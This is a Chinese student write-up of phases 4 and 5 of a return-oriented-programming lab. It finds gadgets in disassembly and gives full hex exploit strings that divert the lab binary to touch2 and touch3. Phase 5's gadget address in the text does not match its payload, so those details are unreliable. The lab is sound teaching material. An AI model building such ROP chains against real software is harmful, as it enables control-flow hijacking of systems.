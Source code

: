 **前面的几个实验主要是填充代码，此处主要记录phase4和phase５**

需要注意**90代表no operations**

## phase4

使用ＲＯＰ攻击，不能使用固定的%rsp地址跳转

这里和phase２一样，是将cookie传递到touch２中，要解决的问题就是如何将cookie放到ｒｄｉ中

可以采用以下动作完成：

```assembly
popq %rax
movq %rax,%edi
ret
```

其中popq %rax字节码　５８　先去找到这个代码：

```assembly
0000000000401758 <addval_119>:
  401758:	8d 87 58 90 90 90    	lea    -0x6f6f6fa8(%rdi),%eax
  40175e:	c3  
```

所以找到**0x40175a**  此是**gadget1**

接下来寻找后续两句汇编的字节码　movq %rax,%edi 是48 89 c7 c3 ，所以找到

```assembly
000000000040177f <setval_382>:
  40177f:	c7 07 5c 48 89 c7    	movl   $0xc789485c,(%rdi)
  401785:	c3   
```

所以找到**0x401782**，此时**gadget2**

最后的代码应当由填充部分，gadget1的地址，cookie,gadget2的地址，touch2的地址组成

```code
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 //填充
5a 17 40 00 00 00 00 00 //gadget1
80 93 14 63 00 00 00 00 //cookie
82 17 40 00 00 00 00 00 //godget2
f6 15 40 00 00 00 00 00 //touch2
```

## phase5

将cookie传递到touch３，首先寻找和%rsp相关的代码

`movq %rsp, %rax`的对应４８　８９　ｅ０，找到

```assembly
00000000004017cb <addval_337>:
  4017cb:	8d 87 48 89 e0 91    	lea    -0x6e1f76b8(%rdi),%eax
  4017d1:	c3 
```

找到gadget1 ０x4017cd

接下来需要一个递增rax的来指向cookie

寻找`add $0x37,%al`　的代码 04 37

```assembly
0000000000401793 <add_xy>:
  401793:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  401797:	c3   
```

找到gadget2 ０x401795

接下来寻找`mov %rax, %rdi`的代码　４８　８９　ｃ7

```assembly
0000000000401771 <addval_358>:
  401771:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  401777:	c3 
```

找到gadget3 ０x401773

填充区２的计算是：从gadget２开始计算，一共申请了0x３７,用了3*8，剩下的需要填充，

```code
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 //0x18　填充
e7 17 40 00 00 00 00 00  //gadget1
95 17 40 00 00 00 00 00  //gadget2
73 17 40 00 00 00 00 00  //gadget3
ca 16 40 00 00 00 00 00  //touch3
dd dd dd dd dd dd dd dd dd dd dd dd dd dd dd dd
dd dd dd dd dd dd dd dd dd dd dd dd dd dd dd //０x37-3*8 = 31字节填充２
36 33 31 34 39 33 38 30 00　//cookie
```

